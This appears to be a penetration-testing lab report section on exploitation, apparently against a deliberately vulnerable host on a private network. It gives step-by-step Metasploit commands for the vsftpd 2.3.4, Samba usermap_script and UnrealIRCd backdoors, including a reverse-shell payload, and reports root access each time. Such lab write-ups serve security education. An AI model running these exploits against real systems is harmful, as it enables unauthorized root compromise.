



# 💣 Phase 3: Exploitation

## 🎯 Objective
The objective of this phase is to exploit identified vulnerabilities and gain unauthorized access to the target system.

---

## 🛠️ Tools Used
- Metasploit Framework

---

## ⚙️ Exploitation Summary

| Service | Port | Exploit Used | Result |
|--------|------|-------------|--------|
| FTP | 21 | vsftpd_2.3.4_backdoor | Root Access |
| SMB | 445 | samba_usermap_script | Root Access |
| IRC | 6667 | unreal_ircd_3281_backdoor | Root Access |

---

## 🔥 Exploitation Steps

---

### 🔹 1. FTP Exploitation (vsftpd Backdoor)

```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.10.50
run
```

📸 Screenshot:



---

### 🔹 2. SMB Exploitation (Samba usermap_script)

```bash
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.10.50
set RPORT 445
set LHOST 192.168.10.5
run
```

📸 Screenshot:



---

### 🔹 3. IRC Exploitation (UnrealIRCd Backdoor)

```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.10.50
set payload cmd/unix/reverse
set LHOST 192.168.10.5
run
```

📸 Screenshot:



---

## 📊 Key Findings

- Multiple critical services were vulnerable to known exploits
- Exploitation resulted in **root-level access**
- Default configurations and outdated services were the main causes

---

## 🧠 Analysis

The target system was highly vulnerable due to outdated software and insecure configurations. All three exploited services allowed direct system-level access, indicating poor security posture. This demonstrates how attackers can fully compromise a system using publicly available exploits.

---
